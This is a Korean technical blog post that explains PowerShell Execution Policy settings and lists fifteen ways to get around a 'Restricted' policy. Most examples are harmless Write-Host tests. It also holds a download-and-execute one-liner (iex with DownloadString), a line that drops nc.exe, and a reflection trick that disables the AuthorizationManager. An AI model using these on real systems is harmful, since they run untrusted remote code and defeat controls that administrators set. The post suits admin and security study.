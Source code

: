 ```yaml
---
layout: post
title: Execution Policy의 Restricted을 우회하여 PowerShell 실행
description: "Execution Policy의 Restricted을 우회하여 PowerShell 실행"
modified: 2018-12-19
tags: [PowerShell]
---
```



## 개요
> 윈도우 파워셸(Windows PowerShell)은 마이크로소프트가 개발한 확장 가능한 명령 줄 인터페이스(CLI) 셸 및 스크립트 언어를 특징으로 하는 명령어 인터프리터이다. 스크립트 언어는 닷넷 프레임워크 2.0을 기반으로 객체 지향에 근거해 설계되었다. - wikipedia

- `ps1` 파일은 기본 보안정책으로 사용이 불가능
    + Windows Server 2012 R2만 기본 보안정책 설정이 `RemoteSigned`
    + 그 외 모든 버전(Windows 8.1 포함)은 기본 보안정책 설정이 `Restricted`
- 스크립트를 실행하려면 Execution Policy 허용 필요
    + 로컬 컴퓨터에서는 관리자 권한으로 Execution Policy 설정이 가능
    + 보안 강화를 위해 Active Directory의 Group Policy를 통하여 설정 가능  
    + Active Directory > Group Policy Management > `Turn on Script Execution` 설정
    ![](https://user-images.githubusercontent.com/16396760/50433736-61249600-091d-11e9-94f5-5d66aa02c215.png)
    + Group Policy 설정하면 관리자 권한으로도 Policy Execution 을 변경 불가
    ![](https://user-images.githubusercontent.com/16396760/50433738-61bd2c80-091d-11e9-9efd-b8d472b55b08.PNG)


-----
## 테스트 환경 설정

### Execution Policy 확인  
```
 PS > Get-ExecutionPolicy -List | ft -Autosize
```
![001](https://user-images.githubusercontent.com/16396760/50223763-752d3c80-03df-11e9-87da-b9c1de4b4c6d.png)

### 실행 정책 변경 (관리자 권한)  
```
PS > Set-ExecutionPolicy -ExecutionPolicy RemoteSigned
PS > Set-ExecutionPolicy Bypass
PS > Set-ExecutionPolicy Restricted -Force
```
  
### Execution Policy 종류

| Policy | Local Script 실행 | Remote Script 실행 |
|:------:|:---------------:|:-----------------:| 
| Restricted| 불가능| 불가능 |
| AllSigned | 디지털 서명된 스크립트실행 가능 | 디지털 서명된 스크립트실행 가능|
| RemoteSigned | 가능 | 디지털 서명된 스크립트실행 가능|
| Unrestricted | 가능 | 가능 |
| Bypass | 가능 | 가능 |


- Remote Signed
    + 로컬 저장된 스크립트는 실행 가능
    + 원격에서 다운로드한 스크립트는 디지털 서명된 경우에만 실행 가능
        ```  
        PS > \\[원격]\Process.ps1
        PS > invoke-Expression -Command \\[원격]\Process.ps1
         ```
- UnRestricted
    + 원격에 있는 스크립트를 실행할때는 경고창을 출력후 실행
- Restricted
    + 로컬/원격 스크립트 모두 실행 불가
- Bypass
    + 로컬/원격 스크립트 실행 가능
         ```
        # 관리자 사용 
        PS > Set-ExcutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force
         ```
- AllSigned
    + 스크립트에 디지털 서명이 되어있지 않으면 실행 불가
    + Group Policy로 AllSigned로 설정하면 각 컴퓨터에서는 설정 변경을 하지 못하므로 디지털 서명된 스크립트 파일만 실행 가능

----
## 정책을 우회 하여 PowerShell 실행
간단한 스크립트를 작성하여 ps1파일로 저장 후 실행
```
Write-Host "Hello World! run me!!!"
```
- `Get-ExecutionPolicy` 명령어로 실행 정책 확인
    ![003](https://user-images.githubusercontent.com/16396760/50223765-752d3c80-03df-11e9-9c4f-89365eba3494.png)
- `Restricted` 정책일 경우 PowerShell 스크립트 사용 불가
    ![002](https://user-images.githubusercontent.com/16396760/50223764-752d3c80-03df-11e9-80e0-9ec3bf400bc2.png)



1. Paste the Script into an Interactive PowerShell Console
    ![004](https://user-images.githubusercontent.com/16396760/50223766-75c5d300-03df-11e9-9f0e-bf8f2153b4ed.png)

2. Echo the Script and Pipe it to PowerShell Standard In
    ```
    Echo Write-Host "Hello World! run me!!!"  | PowerShell.exe -noprofile -
    ```  
    ![006](https://user-images.githubusercontent.com/16396760/50223768-75c5d300-03df-11e9-8a99-72de6bfb3a45.png)

3. Read Script from a File and Pipe to PowerShell Standard In
    ```
    Get-Content .run.ps1 | PowerShell.exe -noprofile - 
    ```
    ![005](https://user-images.githubusercontent.com/16396760/50223767-75c5d300-03df-11e9-8f83-27d1dc04ad28.png)
    ```
    TYPE .runme.ps1 | PowerShell.exe -noprofile -
    ```
    ![007](https://user-images.githubusercontent.com/16396760/50223769-75c5d300-03df-11e9-8f2b-c01bd19044a7.png)

4. Download Script from URL and Execute with Invoke Expression
    ```
    powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL주소')"
    powershell -nop -c "Invoke-Expression(New-Object Net.WebClient).DownloadFile('URL주소', c:\temp\nc.exe)"
    ```

5. Use the Command Switch
    ```
    Powershell -command "Write-Host 'My voice is my passport, verify me.'"
    ```
    ![008](https://user-images.githubusercontent.com/16396760/50223770-765e6980-03df-11e9-81dd-c5e9aa859ffc.png)

6. Use the EncodeCommand Switch
    ```
    $command = "Write-Host 'My voice is my passport, verify me.'" 
    $bytes = [System.Text.Encoding]::Unicode.GetBytes($command) 
    $encodedCommand = [Convert]::ToBase64String($bytes) 
    powershell.exe -EncodedCommand $encodedCommand
    ```
    ![010](https://user-images.githubusercontent.com/16396760/50223772-765e6980-03df-11e9-880b-9e3de9e40b8e.png)

    ![011](https://user-images.githubusercontent.com/16396760/50223773-76f70000-03df-11e9-86a1-2a7af5d44d3b.png)

7. Use the Invoke-Command Command
    ```
    invoke-command -scriptblock {Write-Host "My voice is my passport, verify me."}
    ```
    ![012](https://user-images.githubusercontent.com/16396760/50223774-76f70000-03df-11e9-8804-f8bc44943a33.png)

8. Use the Invoke-Expression Command
    ![013](https://user-images.githubusercontent.com/16396760/50223775-76f70000-03df-11e9-8b4e-d89850d05b4c.png)

    ![014](https://user-images.githubusercontent.com/16396760/50223776-778f9680-03df-11e9-93b2-1f16dcc3cbba.png)

9. Use the “Bypass” Execution Policy Flag
    ```
    PowerShell.exe -ExecutionPolicy Bypass -File .run.ps1
    ```
    ![015](https://user-images.githubusercontent.com/16396760/50223777-778f9680-03df-11e9-93cf-70c08125dc52.png)

10. Use the “Unrestricted” Execution Policy Flag
    ```
    PowerShell.exe -ExecutionPolicy UnRestricted -File .run.ps1
    ```
    ![016](https://user-images.githubusercontent.com/16396760/50223779-78282d00-03df-11e9-911b-02ce4f8cd44a.png)

11. Use the “Remote-Signed” Execution Policy Flag
    ```
    PowerShell.exe -ExecutionPolicy Remote-signed -File .runme.ps1
    ```
    
12. Disable ExecutionPolicy by Swapping out the AuthorizationManager
    ```
    PS > function Disable-ExecutionPolicy {($ctx = $executioncontext.gettype().getfield("_context","nonpublic,instance").getvalue( $executioncontext)).gettype().getfield("_authorizationManager","nonpublic,instance").setvalue($ctx, (new-object System.Management.Automation.AuthorizationManager "Microsoft.PowerShell"))}
    PS > Disable-ExecutionPolicy
    PS > .\runme.ps1
    ```
    ![017](https://user-images.githubusercontent.com/16396760/50223780-78282d00-03df-11e9-91a6-973303e626c2.png)

13. Set the ExcutionPolicy for the Process Scope
    ![018](https://user-images.githubusercontent.com/16396760/50223781-78282d00-03df-11e9-9508-1bad6439f319.png)

14. Set the ExcutionPolicy for the CurrentUser Scope via Command
    ```
    Set-Executionpolicy -Scope CurrentUser -ExecutionPolicy UnRestricted
    ```
    ![019](https://user-images.githubusercontent.com/16396760/50223782-78282d00-03df-11e9-9cd6-7a19350aaf5c.png)

15. Set the ExcutionPolicy for the CurrentUser Scope via the Registry
    ```
    HKEY_CURRENT_USER\Software\MicrosoftPowerShell\1\ShellIds\Microsoft.PowerShell
    ```
    ![021](https://user-images.githubusercontent.com/16396760/50223784-78c0c380-03df-11e9-8676-246d6810a134.png)
    ![020](https://user-images.githubusercontent.com/16396760/50223783-78c0c380-03df-11e9-83c4-007639c7203b.png)

----
#### 참조
 [Microsoft](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.security/set-executionpolicy?view=powershell-6)  
 [NETSPI](https://blog.netspi.com/15-ways-to-bypass-the-powershell-execution-policy/)  
 [Winaero](https://winaero.com/blog/change-powershell-execution-policy-windows-10/)  
